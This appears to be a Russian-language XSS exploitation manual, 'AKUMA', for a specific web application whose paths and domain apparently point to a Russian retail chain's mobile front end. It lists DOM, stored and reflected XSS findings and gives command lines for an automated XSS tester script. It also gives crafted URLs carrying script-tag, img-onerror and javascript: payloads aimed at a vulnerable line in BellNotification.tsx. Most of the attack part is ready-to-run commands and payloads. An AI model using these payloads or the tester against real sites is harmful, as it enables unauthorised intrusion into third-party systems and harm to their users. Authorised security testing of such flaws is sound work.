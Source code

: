 # 🔥 AKUMA XSS Testing Manual 🔥
## Пошаговое руководство по тестированию XSS уязвимостей

### 📋 Краткий обзор найденных уязвимостей:

1. **DOM XSS (4 критичных)** - window.location.origin без валидации
2. **Stored XSS (2 критичных)** - База данных без санитизации
3. **Reflected XSS (1 критичный)** - req.ip прямо в ответ
4. **dangerouslySetInnerHTML (13 потенциальных)** - React без санитизации

---

## 🚀 Запуск автоматизированного тестера

### Базовый запуск (все тесты):
```bash
./akuma_xss_tester.py -u https://your-perekrestok-domain.com
```

### Тестирование конкретных типов XSS:
```bash
# Только DOM XSS
./akuma_xss_tester.py -u https://target.com --dom

# Только Stored XSS  
./akuma_xss_tester.py -u https://target.com --stored

# Только Reflected XSS
./akuma_xss_tester.py -u https://target.com --reflected

# С указанием количества потоков
./akuma_xss_tester.py -u https://target.com -t 20
```

---

## 🎯 Ручное тестирование уязвимостей

### 1. DOM XSS в BellNotification.tsx

**Уязвимый код (строка 76):**
```javascript
url: `${window?.location?.origin}${route}`,
```

**Тестовые URL:**
```
https://your-domain.com/mobile5ka/src/layouts/DefaultLayout/BellNotification/#<script>alert('AKUMA')</script>

https://your-domain.com/mobile5ka/src/layouts/DefaultLayout/BellNotification/#<img src=x onerror=alert('DOM_XSS')>

https://your-domain.com/mobile5ka/src/layouts/DefaultLayout/BellNotification/#javascript:alert('HACKED')
```
